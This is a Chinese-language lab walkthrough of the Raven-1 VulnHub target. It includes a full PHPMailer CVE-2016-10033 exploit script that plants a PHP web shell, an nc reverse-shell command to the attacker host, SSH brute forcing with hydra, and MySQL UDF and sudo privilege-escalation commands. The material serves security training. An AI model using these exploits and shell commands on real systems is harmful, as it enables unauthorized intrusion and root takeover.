# 前言

靶机：`Raven-1`，IP地址为`192.168.10.16`

攻击：`kali`，IP地址为`192.168.10.2`

都采用虚拟机，网卡为桥接模式

> 文章所用靶机来自`vulnhub`，可通过官网下载，或者在本公众号回复`raven1`获取下载链接

# 主机发现

因为都处于同一局域网、同一网卡、同一网段，并且因为桥接模式，扫描出的结果很多，所以决定采用`arp-scan -l`或者`netdiscover -r 192.168.10.1/24`扫描网段中的存活主机。

若想要模拟真实，可以采用`nmap`等工具



# 信息收集

## 使用nmap扫描端口



## 网站信息探测

访问80端口默认界面，可以看到这种类型的网站，很像是现在的静态`html`界面

查看页面源代码，发现`blog`这个不是`html`，而是目录，名为`wordpress`，并且`contact`是`php`，也就是`contact.php`



可点的菜单都点一下，在点击`blog`，跳转到`wordpress`界面，不过内容的显示有问题



当点击`hello world`时，跳转到一个域名，因为这里是靶机，所以只有一个`ip`地址，把这个`ip`绑定到本地的`hosts`文件中，本地解析即可，`windows`和`linux`对于这个文件的位置不同

`windows`在`C:\Windows\System32\drivers\etc\hosts`

下面我以`linux`为例添加，在`/etc/hosts`这里添加即可



这时候再访问即可发现已经成功



可以再使用`whatweb`进一步确定是否为`wordpress`



既然已经知道是`wordpress`，那么使用针对该CMS的工具`wpscan`进行测试，发现`xmlrpc.php`是开启的，并且`wordpress`的版本确实为`4.8.7`

```shell
wpscan --url http://raven.local/wordpress
```



进一步测试，看能否枚举出一些用户，发现用户`michael`和`steven`

```shell
wpscan --url http://raven.local/wordpress -e u
```



尝试进行密码破解，但是时间太长，估计不是这个方法，再尝试枚举插件，看能否有可利用的，发现还是没有

```shell
wpscan --url http://raven.local/wordpress --detection-mode aggressive --plugins-detection aggressive
```



# 漏洞寻找

回到刚开始的界面，那里的`contact.php`，不过先进行目录爆破，然后在爆破的时候进行测试

这里采用`gobuster`进行爆破，等待一会，发现一个压缩包和未有的目录

```shell
gobuster dir -u http://192.168.10.16 -w /usr/share/wordlists/dirb/big.txt -x php,html,txt,md,zip,tar -d -b 404,403
#-d 参数，就是寻找备份文件格式
```



使用`ffuf`进行参数测试，假设有路径遍历，发现一个传参`action`

```shell
ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://raven.local/contact.php?FUZZ=../../../../etc/passwd
```



但是在浏览器测试，发现是多出一串字符提示，说是确实字段，可能这里的传参不止一个，需要同时具有这些传参才行



因为是在`contact.php`界面，所以把这个页面中的留言也测试一下，通过`burp`抓取发送时的数据包

抓取到一个`mail.php`，并且感觉这里的参数就是提示中缺失的字段



经过参数测试，发现当`name`、`email`、`message`三个参数存在时，就会提示"信息已发送"



但是这里在`message`中写入什么都没有回显啊，尝试访问`mail.php`，发现提示`404`，但是提交的时候确实有这个文件。后面再抓包，发现原来是漏抓了，不过这里的数据包也可以


思考一下，只有这个界面是`php`的，还涉及到`email`

这时候，目录也扫描完毕了，把图片放在上面对应的命令处

查看一下`service.html`，发现原界面没发现，但是在页面源代码的最后，发现一个`flag`




把压缩包`contact.zip`下载并查看，解压后，发现是`contact.php`的源码，发现参数与前面猜测的一样，并且还出现一个`php`文件，提示是`phpmailer`



百度搜索，这是`php`中的一个库，用于发送邮件的

查看`vendor`目录，发现这里面包含`phpmailer`的信息，可以从这里下手



查看`VERSION`发现是对应的版本号`5.2.16`

查看`SECURITY.md`发现，这里面竟然包含版本对应的漏洞，设置编号都给出了



# 漏洞利用

## phpmailer漏洞

而根据版本，恰好在给出的版本漏洞范围，"低于 5.2.18 的 PHPMailer 版本（2016 年 12 月发布）容易受到 [CVE-2016-10033]（https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-10033） 远程代码执行漏洞的影响"

对于该漏洞的分析，可以自行百度搜索，这里直接通过`searchsploit`搜索，然后查看其中的用法，或者点击给出的链接，其中包含多个漏洞解析及用法的。

图中标注的，是通过链接搜索的，对应着的漏洞编号

这个漏洞还可用于`wordpress`在进行忘记密码时的操作



查看对应的脚本代码，这里是构建好的，执行脚本时，带着靶机地址和存在漏洞的页面即可

不过测试，发现这个不适合，查看代码，发现问题，因为查看前面文档中的安全问题，对应版本的链接时，说的是`\`具有安全隐患的，而这里的构造语句，并没有，所以不行，更改语句即可

这里提供更改后的代码，如下

```shell
#!/bin/bash
# CVE-2016-10033 exploit by opsxcq
# https://github.com/opsxcq/exploit-CVE-2016-10033

echo '[+] CVE-2016-10033 exploit by opsxcq'

if [ -z "$1" ]
then
    echo '[-] Please inform an host as parameter'
    exit -1
fi

host=$1

echo '[+] Exploiting '$host

curl -sq 'http://'$host -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzXJpHSq4mNy35tHe' --data-binary $'------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="action"\r\n\r\nsubmit\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="name"\r\n\r\n<?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="email"\r\n\r\n"vulnerables\\\" -OQueueDirectory=/tmp -X/var/www/html/ppp.php server\" @test.com\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="message"\r\n\r\nPwned\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe--\r\n' >/dev/null && echo '[+] Target exploited, acessing shell at http://'$host'/ppp.php'

cmd='whoami'
while [ "$cmd" != 'exit' ]
do
    echo '[+] Running '$cmd
    curl -sq http://$host/backdoor.php?cmd=$(echo -ne $cmd | base64) | grep '|' | head -n 1 | cut -d '|' -f 2 | base64 -d
    echo
    read -p 'RemoteShell> ' cmd
done
echo '[+] Exiting'
```

主要修改地方在`name="email"`后面的数据以及目录地址`/var/www/html`

当然，在`github`上也有可直接使用的，地址为`https://github.com/opsxcq/exploit-CVE-2016-10033/blob/master/exploit.sh`，而且搜索出的`python`脚本也是可以直接使用的，不过在访问时，记得访问`192.168.10.16/ppp.php`

该脚本是通过`base64`进行的传递，所以，命令要进行`base64`编码的

先执行脚本，可能如下，但是不用管，是已经上传成功的。访问`192.168.10.16/ppp.php`即可，这里的提示不用管它



访问即可观察到，这里的`aWQ=`是命令`id`的，所以会这样显示，说明成功



那么尝试写入一个反弹`shell`，然后进行`base64`编码，测试常用的`bash`命令不行，就以`nc`

```shell
nc -e /bin/bash 192.168.10.2 9999
#编码
bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTAuMiA5OTk5
```

先在`kali`中开启监听9999端口，然后浏览器访问，即可反弹成功




## ssh爆破

不过之前`wpscan`扫描出两个用户`michael`和`steven`，结合既然`wordpress`爆破不出，使用`hydra`测试`ssh`

```shell
hydra -L user -P /usr/share/wordlists/rockyou.txt 192.168.10.16 ssh
```

很快就出现一个，让其继续爆破



登录这个账户，确实可行



回到网站目录，查看之前测试`php mailer`的脚本，发现脚本`ppp.php`



还有其他脚本，这里就不演示了

# 靶机内信息收集

查看`/var/backups`和`/var/log`中并未有内容，或者无权限

查看`/home`目录下，只有`michael`和`steven`两个用户，并且目录下都没有东西

查看内核版本等信息，发现对应的漏洞，但是因为编译时`glibc`版本问题，无法利用

```shell
uname -r 
cat /etc/issue
```



查看网络状态信息



发现数据库，那么尝试去登录，先去`wordpress`网站测试，一般网站存在与后端交互的情况，可能有数据库的连接信息



数据库连接的用户名`root`和密码`R@v3nSecurity`

不过在目录查看时，无意发现`flag2`



连接数据库，发现其中`wordpress`只有两个用户，不过另一个是以`hydra`还未破解出



尝试对`steven`的密码进行破解，这里可以先使用在线网站破解，`cmd5.com`或`somd5.com`

解出密码`pink84`



# 提权

## sudo提权

使用`find`寻找具有SUID权限的文件，发现`sudo`，不过当前用户没有`sudo`权限

```shell
find / -perm -4000 -print 2>/dev/null
```



使用上面解出的`steven`密码切换到`steven`，然后再使用`sudo`，发现有一个可以



那么可以使用`python`导入然后获取`shell`

```
sudo python -c 'import os;os.system("/bin/bash")'
```



等会，`flag4`？ 我前面只到`flag2`，3呢，我回头找找

最终发现，原来`flag3`在网站中，以`steven`登录后才能看到

## mysql udf提权

关于概念，我放置在文章末尾，可自行查看

为什么考虑呢，因为发现连接数据库的竟然是`root`，这个默认的话，权限是有很大的

测试是否满足条件

```mysql
show global variables like 'secure%';
```




>1）当 secure_file_priv 的值为 NULL ，表示限制 mysqld 不允许导入|导出，此时无法提权
>2）当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出做限制，此时可提权！
>3）如果是 MySQL >= 5.1 的版本，必须把 UDF 的动态链接库文件放置于 MySQL 安装目录下的 lib\plugin 文件夹下文件夹下才能创建自定义函数。

查看`mysql`的版本信息，确定需要知道插件的路径



```mysql
show variables like '%plugin%';
```



在`kali`中搜索漏洞

```shell
searchsploit mysql 5.0 udf
```



查看`c`文件，其中有用法



先在`kali`中编译为`.so`文件，因为在靶机测试，编译出问题，然后下载到靶机

```shell
gcc -g -c 1518.c
gcc -g -shared -Wl,-soname,test.so -o 1518.so 1518.o -lc
```



在靶机内连接数据库，执行下面命令

```mysql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
create function do_system returns integer soname '1518.so';
select * from mysql.func;
select do_system('chmod u+s /bin/bash');
```



这时候查询是否成功，并执行`do_system()`，以进行提取，当然这里不止这一种方式，对于其他的可以再尝试



查看`/bin/bash`的权限，发现确实是变为`suid`权限了，执行后，提取至`root`


# 总结

该靶场考察以下几点：

1. 对于网站具有`php`文件，可进行模糊测试，可能具有隐藏参数
2. 最好通过`burp`代理进行每一步操作，这样可根据数据包分析可能的步骤
3. 对于`php mailer`漏洞的了解与利用，编号`CVE-2016-10033`
4. `ssh`爆破的使用
5. 对于解密操作，可通过`john`，这里是省事，采用网站识别的
6. 提权方式这里就是因为连接`mysql`的用户权限过于大，并且还可以写入和导出，所以采用`udf`提权
7. 对于`sudo`提权的了解

## mysql udf 提权概念

**一、基本概念**

- **UDF（User-Defined Functions）**：用户自定义函数，是 MySQL 允许用户添加自定义函数的一种机制。这些自定义函数可以使用 C 或 C++ 语言编写，然后被编译为动态链接库（.so 文件，Linux 系统）或 DLL 文件（Windows 系统），再通过 `CREATE FUNCTION` 语句加载到 MySQL 服务器中，之后可以像内置函数一样使用它们。

**二、UDF 提权原理**

- MySQL 服务在运行时，通常是以具有一定权限的用户身份运行，比如 `mysql` 用户或 `root` 用户。正常情况下，普通用户登录到 MySQL 后，权限是受到限制的，只能在数据库的范围内操作，无法对操作系统进行高权限操作。
- 当存在 UDF 机制时，如果攻击者可以将一个精心编写的恶意 UDF 库文件上传到服务器，并且可以通过 MySQL 的 `CREATE FUNCTION` 命令将其加载到 MySQL 中，同时，如果 MySQL 进程以 `root` 权限运行，那么这个恶意 UDF 函数就可以调用操作系统级别的函数，从而实现权限提升。例如，通过 UDF 函数可以调用 `system()` 函数执行系统命令，从而实现对操作系统的高权限访问。

**三、利用条件**

- **文件权限**：攻击者需要有足够的权限将恶意的 UDF 库文件上传到 MySQL 服务器可以读取的目录，一般来说，需要有 `FILE` 权限，这个权限允许用户读写文件。在某些情况下，通过 `LOAD_FILE()` 和 `INTO OUTFILE` 函数可以实现文件的读写操作，进而上传恶意 UDF 库文件。
- **MySQL 运行用户权限**：MySQL 服务进程需要以高权限（如 `root`）运行，这样加载的 UDF 函数才能执行高权限操作。如果 MySQL 服务进程以低权限用户运行，即使加载了 UDF 函数，其执行的系统命令也只能在该低权限用户的权限范围内。

**四、利用步骤示例（仅为原理说明，请勿用于非法用途）**：

1. **编写恶意 UDF 库文件**：使用 C 或 C++ 编写一个包含恶意函数的库文件，例如包含 `sys_exec()` 函数，该函数可以调用 `system()` 函数来执行系统命令。
2. **上传文件**：利用 `LOAD_FILE()` 和 `INTO OUTFILE` 或其他文件操作函数将恶意 UDF 库文件上传到 MySQL 可以访问的目录，如 `/usr/lib/mysql/plugin/`（不同系统可能不同）。
3. **加载 UDF 函数**：通过 `CREATE FUNCTION` 语句将恶意 UDF 函数加载到 MySQL 服务器。


```sql
CREATE FUNCTION sys_exec RETURNS STRING SONAME 'udf.so';
```

**执行提权操作**：使用加载的 UDF 函数执行系统命令，实现提权。


```sql
SELECT sys_exec('chmod +s /bin/bash');
```

上述命令使用 `sys_exec()` 函数将 `/bin/bash` 的权限设置为 SUID，使得普通用户可以以 `root` 权限执行 `/bin/bash`，从而实现提权。

